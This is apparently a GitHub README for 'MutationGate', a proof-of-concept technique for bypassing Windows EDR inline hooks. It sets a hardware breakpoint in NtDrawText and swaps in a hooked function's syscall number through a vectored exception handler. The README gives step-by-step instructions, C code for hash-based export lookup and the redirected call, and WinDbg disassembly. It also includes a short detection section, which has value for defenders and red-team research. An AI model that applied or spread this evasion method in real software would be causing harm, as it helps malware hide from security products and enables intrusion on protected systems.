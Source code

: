 # MutationGate
MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 

The function can also be WIN32API. For instance, we can set the 1st hbp at `DrawText` to redirect the execution to `NtDrawText`, and the 2nd hbp replaces the SSN saved in RAX. In this way, module `kernel32.dll` is not skipped, and the call stack looks more legitimate. 

## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
  pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
PVOID GetFuncByHash(IN HMODULE hModule, uint32_t Hash)
{
	PBYTE pBase = (PBYTE)hModule;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return NULL;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return NULL;

	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
	PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) 
	{
		CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
		PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
		if (Hash == ROR13Hash(pFunctionName)) 
		{
			return pFunctionAddress;
		}
	}
	return NULL;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
		fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
		NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```


## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach
So far, some classic and common approaches to bypass EDR's inline hook include but are not limited to the following approaches:
1. Load the 2nd ntdll module
2. Copy a fresh ntdll's text section to overwrite hooked ntdll's text section
3. Overwrite hooked codes(syscall stub) with fresh code
4. More...

The above techniques involve the modification of loaded ntdll, or loading of the 2nd ntdll. These behaviors could be detected by EDR. 

While MutationGate is not the only approach that untouches loaded ntdll, it does have the advantage of not modifying the loaded ntdll module, which decreases the possibility of getting detected. 

And, it is very simple, no need to modify other registers, etc.


## Detection
It is possible to detect MutationGate technique.

1. The `AddVectoredExceptionHandler` call could look suspicious in a normal program.
2. In the POC, NTAPI is called directly, which could be weird in a normal program. However, it can be resolved by adding 1 more hardware breakpoint at `DrawText`, directing the execution to `NtDrawText` and triggering the 2nd hardware breakpoint that replaces SSN.
3. Call stack in kernel space could reveal clues.

## Credits and References
<https://cyberwarfare.live/bypassing-av-edr-hooks-via-vectored-syscall-poc/>

<https://redops.at/en/blog/syscalls-via-vectored-exception-handling>

<https://gist.github.com/CCob/fe3b63d80890fafeca982f76c8a3efdf>

## Other Approaches Utilized Hardware Breakpoint
<https://github.com/Dec0ne/HWSyscalls>

<https://github.com/rad9800/TamperingSyscalls>

<https://github.com/RedTeamOperations/VEH-PoC>
